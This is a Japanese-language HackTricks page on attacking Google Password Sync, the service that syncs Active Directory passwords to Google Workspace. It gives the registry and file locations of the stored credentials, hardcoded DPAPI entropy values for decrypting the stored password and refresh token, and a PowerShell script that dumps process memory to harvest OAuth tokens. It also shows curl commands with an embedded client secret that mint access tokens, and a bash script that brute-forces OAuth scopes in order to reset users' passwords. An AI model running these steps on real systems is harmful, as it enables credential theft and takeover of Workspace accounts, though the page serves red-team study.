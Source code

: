 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

これは、Googleが提供するバイナリおよびサービスで、**AD**とWorkspace間でユーザーのパスワードを**同期**させるためのものです。ユーザーがADでパスワードを変更するたびに、それがGoogleに設定されます。

`C:\Program Files\Google\Password Sync`にインストールされ、ここでバイナリ`PasswordSync.exe`を見つけて設定し、`password_sync_service.exe`（実行を続けるサービス）があります。

### GPS - 設定

このバイナリ（およびサービス）を設定するには、**Workspace内のスーパ管理者の権限を与える必要があります**：

* Googleで**OAuth**を介してログインし、その後**トークンをレジストリに（暗号化されて）保存します**
* GUIのあるドメインコントローラーでのみ利用可能
* **Workspaceユーザーを管理する権限を持つGCPの**サービスアカウントの資格情報（jsonファイル）を提供
* これらの資格情報は期限切れにならないため、悪用される可能性があるため非常に悪いアイデア
* SAがWorkspaceにアクセスできるようにするのは非常に悪いアイデアで、SAがGCPで侵害されるとWorkspaceにピボットする可能性があります
* GoogleはGUIのないドメインコントロール用にこれを要求します
* これらの資格情報もレジストリに保存されます

ADに関しては、現在の**アプリケーションコンテキスト、匿名または特定の資格情報**を使用するように指示することが可能です。資格情報オプションが選択されると、**ユーザー名**は**ディスク**内のファイルに保存され、**パスワード**は**暗号化**されて**レジストリ**に保存されます。

### GPS - ディスクからのパスワードとトークンのダンプ

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)は、**GPS**を検出し、設定に関する情報を取得し、**パスワードとトークンを復号化することさえ可能です**。
{% endhint %}

ファイル**`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**には、設定の一部として**`baseDN`**や使用されている**`username`**が見つかります。

レジストリ**`HKLM\Software\Google\Google Apps Password Sync`**には、**暗号化されたリフレッシュトークン**とADユーザーのための**暗号化されたパスワード**（存在する場合）が見つかります。さらに、トークンの代わりに**SA資格情報**が使用されている場合、それらもそのレジストリアドレスに暗号化されて保存されます。このレジストリ内の**値**は**管理者**のみが**アクセス可能**です。

暗号化された**パスワード**（存在する場合）は、キー**`ADPassword`**内にあり、**`CryptProtectData`** APIを使用して暗号化されています。復号化するには、パスワード同期を設定したのと同じユーザーである必要があり、**`CryptUnprotectData`**を使用する際にこの**エントロピー**を使用します：`byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

暗号化されたトークン（存在する場合）は、キー**`AuthToken`**内にあり、**`CryptProtectData`** APIを使用して暗号化されています。復号化するには、パスワード同期を設定したのと同じユーザーである必要があり、**`CryptUnprotectData`**を使用する際にこの**エントロピー**を使用します：`byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
さらに、これは**`0123456789abcdefghijklmnopqrstv`**という辞書を使用してbase32hexでエンコードされています。

エントロピー値は、ツールを使用して見つかりました。このツールは、**`CryptUnprotectData`**および**`CryptProtectData`**への呼び出しを監視するように設定され、その後、`PasswordSync.exe`を起動して監視するために使用され、設定されたパスワードと認証トークンを最初に復号化し、ツールは両方のケースで使用されたエントロピーの値を**表示します**：

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

これらのAPIへの呼び出しの入力または出力で**復号化された**値を見ることも可能です（Winpeasが動作しなくなった場合に備えて）。

パスワード同期が**SA資格情報で設定されている**場合、それもレジストリ**`HKLM\Software\Google\Google Apps Password Sync`**内のキーに保存されます。

### GPS - メモリからのトークンのダンプ

GCPWと同様に、`PasswordSync.exe`および`password_sync_service.exe`プロセスのメモリをダンプすることが可能で、リフレッシュトークンとアクセストークン（すでに生成されている場合）を見つけることができます。\
ADに設定された資格情報も見つけることができると思います。

<details>

<summary>ダンプ <code>PasswordSync.exe</code> と <code>password_sync_service.exe</code> プロセスとトークンを検索</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - リフレッシュトークンからアクセストークンを生成する

リフレッシュトークンを使用して、次のコマンドで指定されたクライアントIDとクライアントシークレットを使用してアクセストークンを生成することができます:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - スコープ

{% hint style="info" %}
リフレッシュトークンを持っていても、アクセストークンのためにスコープをリクエストすることはできません。なぜなら、アクセストークンを生成しているアプリケーションでサポートされている**スコープのみをリクエストできる**からです。

また、リフレッシュトークンはすべてのアプリケーションで有効ではありません。
{% endhint %}

デフォルトでは、GPSはユーザーとしてすべての可能なOAuthスコープにアクセスできないため、次のスクリプトを使用して、`refresh_token`を使用して`access_token`を生成するために使用できるスコープを見つけることができます：

<details>

<summary>スコープをブルートフォースするためのBashスクリプト</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

そして、これが執筆時に得られた出力です：
```
https://www.googleapis.com/auth/admin.directory.user
```
どのスコープも指定しない場合と同じです。

{% hint style="danger" %}
このスコープでは、**既存のユーザーのパスワードを変更して権限を昇格させることができます**。
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
